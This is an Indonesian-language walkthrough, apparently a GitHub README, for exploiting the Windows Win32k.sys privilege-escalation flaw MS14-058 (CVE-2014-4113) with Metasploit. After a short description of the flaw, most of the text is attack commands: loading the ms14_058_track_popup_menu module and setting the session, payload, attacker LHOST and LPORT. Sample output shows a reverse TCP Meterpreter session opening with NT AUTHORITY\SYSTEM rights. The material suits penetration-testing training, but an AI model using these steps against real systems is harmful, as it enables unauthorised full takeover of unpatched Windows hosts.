 # MS14-058

## A. Apa itu MS14-058?

[MS14-058](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058) adalah kerentanan Local Privilege Escalation (LPE) pada sistem operasi Windows yang ditemukan di `Win32k.sys`, sebuah driver kernel-mode dari subsistem grafik Windows.

Kerentanan ini memungkinkan penyerang dengan hak akses terbatas (user biasa) untuk mengeksekusi kode arbitrer dalam mode kernel, dan mendapatkan hak akses tertinggi (`NT AUTHORITY\SYSTEM`).

## B. Detail Teknis:

- CVE ID: `CVE-2014-4113`
- Buletin Microsoft: `MS14-058`
- Tanggal Rilis: `14 Oktober 2014`
- Tipe: Local Privilege Escalation (LPE)
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS14-058`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058#affected-software](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058#affected-software)
  
## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS14-058:

   ```
   msf6 > use exploit/windows/local/ms14_058_track_popup_menu
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and triggering the exploit...
   [*] Launching msiexec to host the DLL...
   [+] Process 2960 launched.
   [*] Reflectively injecting the DLL into 2960...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 18 opened (192.168.1.42:4444 -> 192.168.1.50:49177) at 2025-05-14 17:01:01 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

